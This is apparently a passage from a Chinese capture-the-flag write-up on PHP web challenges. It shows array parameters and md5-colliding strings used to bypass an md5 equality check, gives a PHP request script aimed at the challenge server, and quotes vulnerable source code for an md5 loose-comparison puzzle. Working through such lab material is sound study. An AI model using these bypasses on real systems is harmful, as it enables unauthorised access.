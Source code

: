我第一反应是md5碰撞，网上找了下， 在(stack overflow)[http://stackoverflow.com/questions/1756004/can-two-different-strings-generate-the-same-md5-hash-code] 找到了一个例子，但是提交却一直不对，于是问了出题人，出题人提示php里面数组是不可哈希的(突然想起来py里面也是这样的)，于是poc如下
```html
 http://119.29.16.200:5009/?ha[]=123&1s[]=4
 ```
 直接请求如下网址即可。

 另外，出题人用我的思路做出来了...把之前的字符串转成bin，然后urlencode请求过去，php的exp如下
```php
<?php
$str1 = file_get_contents('1.txt');
$str2 = file_get_contents('2.txt');
echo $str1."<br>";
echo $str2."<br>";
echo md5($str1)."<br>";
echo md5($str2)."<br>";
var_dump($str1 === $str2);
$str1 = urlencode($str1);
$str2 = urlencode($str2);
$url="http://119.29.16.200:5009/?ha=$str1&1s=$str2";
var_dump($url);
$html = file_get_contents($url);
var_dump($html);
?>
文件是这两个
(1.txt)(/img/scuctf/1.txt) 以及 (2.txt)[/img/scuctf/2.txt]


```
我用python没有复现这个东西，用的urllib.urlencode()但是不行，试过了py2和py3都不行，遂放弃。

## 0x02哈希与科学计数法
进去就让我们查看源代码，看到有个hidden的1.txt, 打开看又是一个代码审计题目
```php
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
        <title>鍝堝笇涓庣瀛﹁鏁版硶鐨勯倐閫?</title>
    </head>
    <body>
        <p>view-source</p>
        <a href="./1.txt" style="visibility: hidden;">鏈変簺濂戒笢瑗?</a>
    </body>
</html>
<?php
require_once('flag.php');
$flag = $_GET['flag'];
if (!$flag) { exit(); }
if (strstr($flag,'200')) {
    exit('***');
}else {
    if (md5($flag) == md5('s1091221200a')) {
        echo $_FLAG;
    }else {
        echo '***';
    }
}
?>
```
